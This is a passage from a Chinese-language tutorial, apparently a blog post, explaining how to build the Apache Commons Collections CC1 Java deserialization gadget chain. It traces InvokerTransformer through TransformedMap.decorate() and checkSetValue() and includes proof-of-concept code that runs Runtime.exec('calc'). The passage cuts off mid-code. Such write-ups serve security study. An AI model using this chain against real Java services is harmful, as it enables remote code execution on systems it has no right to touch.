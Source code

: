 之后用 Runtime 类的实例对象作为参数调用上述对象的 transfrom 方法

```java
Runtime runtime = Runtime.getRuntime();
invokerTransformer.transform(runtime);
```

运行之后就可以弹出计算器，具体为什么可以弹计算器就不写了，可以自行分析一下。

注意到我们最后一句代码是 `invokerTransformer.transform(runtime)` ，所以我们下一步的目标就是去找调用 `InvokerTransformer.transform()` 方法的不同名函数

### 3.3 TransformedMap.checksetValue()

如上所述，现在回到 `InvokerTransformer.transform()` 方法并寻找调用了这个方法的不同名函数。IDEA 可以帮我们快速做到这一点，只需要将光标停留在这个方法上并右键点击 find usages 即可。如果 find usages 有问题的话，可以先 `Ctrl+Alt+Shift+F7`，选择 `All place` 查询。最后的结果应如下图

![](https://i.imgur.com/FEPDKTu.png)


>这里同样有一个逐个翻看调用了 transform() 方法的那些类的操作，目的是为了找到可行的链子。我节省时间故直接给出答案。

发现 `TransformedMap` 类调用了 `transform()` 方法

![](https://i.imgur.com/i1tbTVH.png)


具体地说是这个类中的 `checkSetValue()` 方法调用了 `transform()` 方法。我们右键选中然后 jump to source,源码如下：

![](https://i.imgur.com/uYfW631.png)

我们肯定是想让上图的 `valueTransformer` 是一个 `InvokerTransformer` 类对象。所以接下来我们去看一看 `valueTransformer` 是什么东西，最终在 `TransformedMap` 的成员变量中发现了 `valueTransformer`

![](https://i.imgur.com/K8N3Gjv.png)

喔，原来这是一个 Transformer 接口。那我们的 InvokerTransformer 作为实现了这个接口的类肯定是可以和该变量兼容的。
那我们就尝试寻找该变量是否存在可控点，最后在 TransformedMap 类的构造函数中发现可以设置这个变量的值，如下图：

![](https://i.imgur.com/54XRKeh.png)


- 因为 `TransformedMap` 的构造方法作用域是 `protected`，所以我们还需要去找一找谁调用了 `TransformedMap` 的构造方法。

发现在 `TransformedMap.decorate()` 静态方法中创建了 `TransformedMap` 对象

![](https://i.imgur.com/ZcfoGRE.png)

那我们的思路就清晰了，通过调用 `TransformedMap.decorate()` 将 valueTransformer 赋值为 InvokerTransformer 类对象，并通过反射调用 `TransformedMap.checkSetValue()` 方法，传入的参数是一个 Runtime 类对象。这样一来就完成了命令执行弹出计算器的构造。
代码如下：

```java
public static void main(String[] args) throws Exception {
        // 实例化一个 InvokerTransformer 对象
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
//
        Runtime runtime = Runtime.getRuntime();

        HashMap<String,String> hashMap = new HashMap<>();
        
        // decorate 方法的返回类型是 Map
        Map transformedMap =  TransformedMap.decorate(hashMap,null,invokerTransformer);

        // checkSetValue 方法是 protected，所以接下来要通过反射调用这个方法

        Class c = TransformedMap.class;
        Method method = c.getDeclaredMethod("checkSetValue",Object.class);
        method.setAccessible(true);
```